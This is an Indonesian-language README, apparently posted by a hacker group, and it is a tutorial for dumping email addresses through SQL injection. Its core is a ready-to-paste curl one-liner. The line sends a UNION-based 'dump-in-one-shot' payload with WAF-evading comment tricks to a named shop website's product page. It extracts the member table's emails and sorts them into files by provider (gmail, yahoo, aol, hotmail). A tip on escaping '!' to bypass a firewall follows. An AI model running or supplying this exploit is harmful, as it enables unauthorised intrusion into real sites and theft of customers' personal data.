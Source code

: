 # Extract-data-with-SQLi (curl & grep)

PERTAMA :.
Inject manual seperti biasa dengan dios yg uda nampilin all email

Langsung replace dengan target yg uda didios mode dump data ya

Paste di terminal bungurasih ya :v

```
curl --silent "http://m.sweetyboutique.com/product-detail.php?id=13584+and+0+/*"\!"00000UNION*/+SELECT+1,(select(@x)from(select(@x:=0x00),(select(0)from(tmember)where(@x:=/*"\!"00000concat*/(@x,0x3c62723e,email))))x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+" >> tmp;grep -o '[[:alnum:]+\.\_\-]*@[[:alnum:]+\.\_\-]*' "tmp" | sort | uniq -i > list;echo "";echo "Total Dumped : `wc -l list`";for i in gmail yahoo aol hotmail;do cat list | grep $i > $i.txt;echo "[+] `wc -l $i.txt`";done;cat list | grep -v gmail | grep -v yahoo | grep -v aol | grep -v hotmail > others.txt;echo "[+] others : `wc -l others.txt`";rm tmp;

```

NB (penting) : 
klo utk smisal ada waf yg perlu pake /*! Comment */
Tanda ```!``` Harus diginiin ```"\!"``` ya

Result :

Lgsg berbentuk txt sort by kandang (gmail,aol,dll)

Keep simple 

Versailles ~ Cans21

Sec7or Team - Surabaya Hacker Link
